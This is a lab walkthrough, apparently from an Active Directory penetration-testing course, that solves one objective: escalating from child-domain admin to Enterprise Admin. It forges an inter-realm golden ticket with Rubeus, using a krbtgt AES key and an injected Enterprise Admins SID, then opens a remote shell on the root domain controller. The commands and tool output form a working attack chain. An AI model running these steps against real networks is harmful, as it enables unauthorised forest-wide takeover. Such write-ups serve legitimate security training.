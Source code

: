 # Learning Objective 19

## Tasks

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate privileges to Enterprise Admins using` dollarcorp`'s `krbtgt` hash**

---

## Solution

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate privileges to Enterprise Admins using` dollarcorp`'s `krbtgt` hash**

We already have the `krbtgt` hash from `dcorp-dc`. Let's create the inter-realm TGT and inject it. Run the below command.

![Victim: dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt`:
```
[SNIP]

[*] Action: Build TGT📌

[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-335606122-960912869-3279953914-519
[*] ServiceKey     : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt📌
[*] Target         : dollarcorp.moneycorp.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local'

[*] AuthTime       : 2/17/2025 5:53:23 AM
[*] StartTime      : 2/17/2025 5:53:23 AM
[*] EndTime        : 2/17/2025 3:53:23 PM
[*] RenewTill      : 2/24/2025 5:53:23 AM

[*] base64(ticket.kirbi):

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38c010

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt📌/dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/17/2025 5:53:23 (local)
        End Time:   2/17/2025 15:53:23 (local)
        Renew Time: 2/24/2025 5:53:23 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

We can now access `mcorp-dc`!

`winrs -r:mcorp-dc.moneycorp.local cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀

![Victim: mcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/mcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator
```

`set computername`:
```
COMPUTERNAME=MCORP-DC
```
🚩

---
---

